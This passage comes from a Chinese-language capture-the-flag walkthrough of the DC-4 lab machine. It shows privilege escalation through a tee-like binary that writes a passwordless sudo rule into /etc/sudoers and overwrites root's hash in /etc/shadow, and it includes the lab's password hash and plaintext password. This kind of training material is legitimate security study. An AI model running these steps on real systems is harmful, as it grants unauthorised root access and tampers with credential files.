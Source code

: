     MODE determines behavior with write errors on the outputs:
      'warn'         diagnose errors writing to any output
      'warn-nopipe'  diagnose errors writing to any output not a pipe
      'exit'         exit on error writing to any output
      'exit-nopipe'  exit on error writing to any output not a pipe
    The default MODE for the -p option is 'warn-nopipe'.
    The default operation when --output-error is not specified, is to
    exit immediately on error writing to a pipe, and diagnose errors
    writing to non pipe outputs.
    
    GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
    Full documentation at: <http://www.gnu.org/software/coreutils/tee>
    or available locally via: info '(coreutils) tee invocation'
    ```
    
8. `teehee`提权，直接给用户`sudo all nopasswd`权限
    
    ```python
    echo "charles ALL=(ALL) NOPASSWD: ALL" | sudo teehee -a /etc/sudoers
    ```
    
    然后修改`shadow`文件
    
    ```python
    sudo nano /etc/shadow
    ```
    
    将当前用户`charles`的密码覆盖`root`账户的密码
    
    ```python
    
    root:$6$C7nromw2$HB4uMhUmb.srv.I.Q00bT/SV3fxgphbarSb4A8B0aI6kPGOy6WKrKJk.ckCfMLuO6H4uqGx68ylJcmB5ezJ.r0:17992:0:99999:7:::
    .......
    charles:$6$C7nromw2$HB4uMhUmb.srv.I.Q00bT/SV3fxgphbarSb4A8B0aI6kPGOy6WKrKJk.ckCfMLuO6H4uqGx68ylJcmB5ezJ.r0:17992:0:99999:7:::
    ```
    
    `su`切换到`root` ，使用`charles`的密码`^xHhA&hvim0y`
    
    ```python
    charles@dc-4:~$ su root
    Password: 
    root@dc-4:/home/charles# 
    ```
    
    提权成功！读取`flag`文件
    
    ```python
    # root@dc-4:~# cat flag.txt
    
    888       888          888 888      8888888b.                             888 888 888 888 
    888   o   888          888 888      888  "Y88b                            888 888 888 888 
    888  d8b  888          888 888      888    888                            888 888 888 888 
    888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
    888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
    88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
    8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
    888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 
    
    Congratulations!!!
    
    Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
    who have provided feedback, and who have taken time to complete these little
    challenges.
    
    If you enjoyed this CTF, send me a tweet via @DCAU7.
    ```